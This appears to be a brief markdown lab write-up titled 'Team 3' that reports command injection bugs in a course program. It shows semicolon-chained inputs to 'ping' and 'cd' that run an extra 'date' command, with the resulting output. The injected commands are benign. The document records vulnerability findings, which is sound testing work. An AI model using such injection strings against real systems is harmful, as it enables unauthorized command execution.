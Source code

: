 ## Team 3

> There is no automated client so no exploit scripts

### Command Injection

* Commands are not being sanitized for ping. We can use ; and the command we want to inject
```
Enter input: ping google.com -c 1; date; #
PING google.com (216.58.192.142) 56(84) bytes of data.
64 bytes from ord36s01-in-f14.1e100.net (216.58.192.142): icmp_seq=1 ttl=52 time=7.51 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 7.512/7.512/7.512/0.000 ms
Mon Mar 26 21:31:33 EDT 2018
mc02 184 $

```

* cd command is directly passed to system.
```
Enter input: cd lol;date
Mon Mar 26 21:39:03 EDT 2018
mc02 198 $ 

```
